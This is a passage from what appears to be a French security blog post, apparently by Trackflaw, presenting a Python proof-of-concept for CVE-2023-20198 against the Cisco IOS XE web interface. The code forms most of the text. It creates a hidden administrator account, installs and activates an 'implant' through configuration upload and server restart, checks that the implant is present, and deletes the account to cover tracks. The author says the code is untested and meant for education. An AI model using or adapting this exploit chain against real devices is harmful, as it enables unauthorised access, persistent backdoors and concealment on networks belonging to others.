 ```py
    "config_content": config_content
}

response = requests.post(install_url, data=config_payload, verify=False)

if response.status_code == 200:
    print("Implant installed successfully")

# Restart the web server to activate the implant
restart_url = "https://target.com/webui/restart_server"

response = requests.post(restart_url, verify=False)

if response.status_code == 200:
    print("Web server restarted successfully. Implant is active")

# Check for the presence of the implant
check_url = f"https://target.com/webui/implant_status"

response = requests.get(check_url, verify=False)

if response.status_code == 200:
    if "implant" in response.text:
        print("Implant is present")
    else:
        print("Implant is not present")

# Clean up by deleting the local user account
delete_user_url = f"https://target.com/webui/delete_user/{username}"

response = requests.delete(delete_user_url, verify=False)

if response.status_code == 200:
    print(f"Successfully deleted local user account: {username}")
```

Trackflaw n'est pas en mesure de le tester pour le moment. Ce PoC est à usage éducatif **uniquement**.

### 1. Création de l'administrateur

Le PoC indique cette information pour la création de l'administrateur :

```py
# Exploit CVE-2023-20198 to create a local user account
create_user_url = "https://target.com/webui/create_user"
username = "cisco_tac_admin"
password = "P@ssw0rd"

user_payload = {
    "username": username,
    "password": password
}

response = requests.post(create_user_url, data=user_payload, verify=False)
```
